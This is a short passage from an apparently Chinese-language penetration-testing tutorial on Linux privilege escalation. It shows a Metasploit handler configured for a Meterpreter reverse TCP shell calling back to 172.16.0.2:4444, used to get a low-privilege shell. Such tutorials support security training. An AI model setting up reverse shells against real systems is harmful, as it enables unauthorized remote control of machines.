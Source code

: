 <img src="../../images//image-20230105062400075.png" alt="image-20230105062400075" style="zoom: 67%;" />



## 三 linux提权

3.1 获取低权限shell

在Linux的主机中，创建低权限用户后，执行msfshell上线。

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
```
